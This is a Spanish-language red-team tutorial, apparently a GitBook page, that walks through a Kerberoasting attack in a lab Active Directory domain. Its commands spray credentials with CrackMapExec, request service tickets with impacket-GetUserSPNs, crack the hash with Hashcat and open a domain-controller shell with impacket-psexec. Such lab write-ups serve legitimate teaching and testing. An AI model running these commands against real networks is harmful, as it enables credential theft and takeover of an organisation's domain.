 ```yaml
---
description: >-
  Ataque que se aprovecha de la existencia de SPNs asociados a usuarios no
  generados por el equipo
---
```


# KERBEROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado**
* **7. Convertir un usuario en Administrador local de los clientes.**
* **8. Generar carpetas compartidas con los administradores locales.**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema:

En un Directorio Activo hemos obtenido un acceso inicial con un usuario con bajos privilegios, por ejemplo, utilizando SMB Relay o NTLM Relay. \(vgarcia:Password2\). 

Con este acceso inicial en mente vamos a tratar de crackear el Hash de un Ticket-Granting Service \(TGS\) expedido en nombre de un usuario que posee un SPN asociado.

{% hint style="info" %}
En este ataque explotamos la capacidad de todos y cada uno de los usuarios autenticados de un dominio de solicitar un Ticket-Granting Service. 

Recordemos que este TGS se encuentra encriptado con el secreto del servicio al que queremos acceder. Si este servicio es un usuario con un SPN asociado \(un usuario que Active Directory entiende como un servicio\) entonces su secreto será su contraseña y por lo tanto, el Hash obtenido se podrá crackear si la contraseña no es muy robusta.
{% endhint %}

Para entender mejor estos conceptos puede ver:

{% page-ref page="conceptos-importantes-antes-de-continuar.md" %}

### Herramientas necesarias

#### CrackMapExec

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetUserSPNs**

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

#### PowerSploit Toolkit <a id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

#### Hashcat

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU. 

{% embed url="https://github.com/hashcat/hashcat" %}

### Resumen

* Vamos a comprobar el alcance de nuestros credenciales capturados.
* Vamos a obtener TGS de los usuarios con SPNs asociados.
* Vamos a crackear el Hash capturado en el TGS.
* Vamos a comprobar el alcance de nuestros nuevos credenciales.
* Vamos a entrar en el DC.

## EXPLOIT

### 1. Comprobar alcance de credenciales

Como ya hemos dicho en la introducción, hemos conseguido unos credenciales en una fase preliminar y ya tenemos nuestro Foothold en la máquina.

`vgarcia:Password2`

Vamos a utilizar lo ya aprendido para comprobar el alcance de estos credenciales. Realizamos un Spraying en toda la red con estos credenciales:

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

![Vemos que el usuario es administrador solo en su propio terminal.](../.gitbook/assets/kerberoasting1.png)

Sin embargo, aunque no tenga privilegios, este usuario puede solicitar TGS igual que cualquier otro usuario del dominio.

### 2. Obtener TGS de SPNs asociados a usuarios

A continuación aprovechando las funcionalidades de **impacket-GetUserSPNs** vamos a solicitar desde la cuenta del usuario que tenemos los TGS de los diferentes SPNs, a ver que encontramos.

`sudo echo "IP_DC <tab> hackpoc <tab> hackpoc.local >> /etc/hosts`

`sudo impacket-GetUserSPNs -request hackpoc.local/vgarcia:Password2`

![Hemos obtenido un Hash de un SPN.](../.gitbook/assets/kerberoasting2%20%281%29.png)

### 3. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(por no utilizar siempre john\).

1. Cogemos el Hash que hemos obtenido y lo copiamos en un archivo hash.txt
2. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5tgs" -B 2` 
3. Utilizamos hashcat para crackear el hash. `hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

![Contrase&#xF1;a crackeada](../.gitbook/assets/kerberoasting3.png)

Los credenciales son SVC-SQLService:MYpassword123\#

### 4. Comprobar alcance de credenciales

Volvemos a realizar el paso uno pero con los nuevos credenciales.

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

![&#xA1;Premio! Es un usuario Administrador de dominio](../.gitbook/assets/kerberoasting4.png)

### 5. Shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![Ahora si... &#xA1;Premio!](../.gitbook/assets/kerberoasting5.png)

## REFERENCIAS

[https://en.hackndo.com/kerberoasting/](https://en.hackndo.com/kerberoasting/)  
[https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/](https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/)  
[https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2](https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2)

